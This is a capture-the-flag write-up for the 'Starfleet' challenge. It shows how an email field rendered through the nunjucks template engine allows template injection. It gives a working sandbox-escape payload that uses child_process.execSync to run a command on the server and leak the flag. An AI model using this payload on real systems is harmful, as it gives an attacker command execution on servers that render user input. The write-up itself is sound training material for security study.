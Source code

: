 # Starfleet

## Challenge

We are given a webpage where we can enter an email address.
An email will then be sent to the address with a short message:

```
Hello vexixa7893@sumwan.com

A cat has been deployed to process your submission 🐈
```

## Solution

We can enter multiple email addresses by separating them with commas and the server will attempt to email each address.
This allows us to manipulate the user input variable while still getting the email output.

The email is vulnerable to template injection, which we can verify by using our temporary email address and something like `{{ 1 + 1 }}`:

```
Hello vexixa7893@sumwan.com,2

A cat has been deployed to process your submission 🐈
```

Thanks to this blog post for providing the nunjucks sandbox escape:

http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine

There is a binary in the docker container at `/readflag` which will output the contents of the flag file.
Using the above sandbox escape technique, we can call the binary and inject the flag into the email template:

```
vexixa7893@sumwan.com,{{range.constructor("return global.process.mainModule.require('child_process').execSync('/readflag')")()}}
```

```
Hello vexixa7893@sumwan.com,CHTB{I_can_f1t_my_p4yl04ds_3v3rywh3r3!}

A cat has been deployed to process your submission 🐈
```

## Flag

CHTB{I_can_f1t_my_p4yl04ds_3v3rywh3r3!}

